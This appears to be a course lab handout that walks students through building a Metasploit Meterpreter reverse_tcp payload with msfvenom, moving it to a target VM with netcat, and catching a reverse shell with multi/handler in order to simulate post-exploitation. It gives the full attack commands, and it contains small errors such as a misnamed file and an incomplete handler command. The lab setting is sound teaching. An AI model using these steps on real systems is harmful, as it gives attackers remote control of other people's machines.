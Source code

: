 ## Activity Objective:

Students will create a Meterpreter payload to establish a backdoor on their Ubuntu Server, simulating the post-exploitation phase of a penetration test. By the end of the activity, students will be able to:
1. Explain the goals and significance of the post-exploitation phase in the penetration testing lifecycle.
2. Use Metasploit to create a Meterpreter payload tailored for the Ubuntu Server environment.
3. Successfully deploy the Meterpreter payload to gain access to the Ubuntu Server and establish a persistent backdoor.
4. Navigate the Meterpreter session to execute commands, gather system information, and explore the compromised environment.
5. Understanding the implications of an attacker establishing a reverse shell, including potential risks to system integrity and confidentiality.



## Activity Instructions:

Follow the instructions below to simulate an attacker abusing a file upload vulnerability to gain unauthorized access to a web server.
1. Log into your Red Team VM, and create a new directory on your desktop named "Penetration-Test" and change into this directory within the terminal.
2. Verify that Metasploit is installed to your machine by executing msfconsole. If Metasploit is not installed, run `apt update && apt install -y metasploit-framework`. Once installed run Metasploit by executing `msfconsole`.
3. Log into the target server (your Blue Team VM) and run `lscpu` or execute a NMAP scan to confirm the architecture and.or byte order of your VM's operating system.
4. On your Red Team VM, search Metasploit for a reverse_tcp payload that will allow you to deploy a backdoor on your ubuntu server.
5. Use msfvenom to create the following payload: `msfvenom -p linux/<target_arch>/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f elf > shell.elf`. (Remember: use the architecture for your Ubuntu Server).
6. List the current contents of your "penetration-test" directory to verify that the meterpreter payload was created.
7. Due to the fact that DVWA is deployed within a container this prevents an attacker from uploading the malware directly to the server. However, for this activity we will assume that we have [escaped the container](https://unit42.paloaltonetworks.com/container-escape-techniques/) and placed the meterpeter payload on the target machine. This will be simulated through steps 9 - 16 using netcat to place the shell.elf file on the target.
8. Log into your Blue Team VM and run `nc -l -p 4444 > shell.elf`.
9. On your Red Team VM run `nc [blue_team_VM_IP] 4444 < shell.elf`.
10. Close the connection on the ubuntu server and verify that the shell.elf file was copied over using netcat.
11. On your Red Team VM, and within msfconsole load the Generic Payload Handler by running `use exploit/multi/handler`.
12. Set the payload within msfconsole to the meterpreter payload you used by running `set payload linux/<target_arch>/meterpreter/reverse_tcp`.
13. Verify that the payload is set within the Generic Payload Handler module by running `options`.
14. Set the localhost to your pentest VM's IP address by running `lhost=<red-team-VM-IP>`.
15. Verify that the localhost is set within the Generic Payload Handler module by running `options`.
16. Execute the meterpreter payload by running `exploit`.
17. Go to your Blue Team VM, and simulate a user with sudo privileges accidentally executing the file by running `sudo chmod +x shell.elf && ./shelf.elf`.
18. Go to your Red Team VM and verify that the meterpreter session is active, and run `getuid` to verify that you have an active reverse shell session as the logged in user on the target machine.
19. Within the meterpreter session gather system information using the basic meterpreter commands found [here](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/).

